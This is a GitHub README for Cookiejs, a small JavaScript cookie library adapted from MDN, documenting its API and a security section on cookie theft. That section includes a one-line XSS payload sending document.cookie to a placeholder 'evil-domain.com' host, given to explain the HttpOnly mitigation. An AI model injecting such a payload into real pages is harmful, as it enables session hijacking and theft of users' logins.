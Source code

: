 
# Cookiejs

A complete cookies reader/writer framework with full unicode support in under 1 kB.

# Credits

It's taken entirely from the [Mozilla Developer Network](https://developer.mozilla.org/en-US/docs/Web/API/document.cookie#A_little_framework.3A_a_complete_cookies_reader.2Fwriter_with_full_unicode_support).

## Syntax

### Setting a cookie
    Cookie.set(name, value[, end[, path[, domain[, secure]]]]);

### Getting a cookie value
    var value = Cookie.get(name);

### Removing a cookie
    Cookie.remove(name[, path], domain);

### Checking if cookie exists
    var has = Cookie.has(name);

### Getting a list of all cookies
    var keys = Cookie.keys();

## Security

It is important to note that the path restriction does not protect against unauthorized reading of the cookie from
a different path. It can easily be bypassed with simple DOM (for example by creating a hidden iframe element with
the path of the cookie, then accessing this iframe's contentDocument.cookie property). The only way to protect cookie
access is by using a different domain or subdomain, due to the same origin policy.

Cookies are often used in web application to identify a user and their authenticated session. So stealing cookie
from a web application, will lead to hijacking the authenticated user's session. Common ways to steal cookies include
using Social Engineering or by exploiting an XSS vulnerability in the application:

    (new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;

The HTTPOnly cookie attribute can help to mitigate this attack by preventing access to cookie value through
Javascript. Read more about [Cookies and Security](http://www.nczonline.net/blog/2009/05/12/cookies-and-security/).

## To Do

- Add tests

## Roadmap

Not much is planned. It does what it needs to. Feel free to submit issues or pull requests.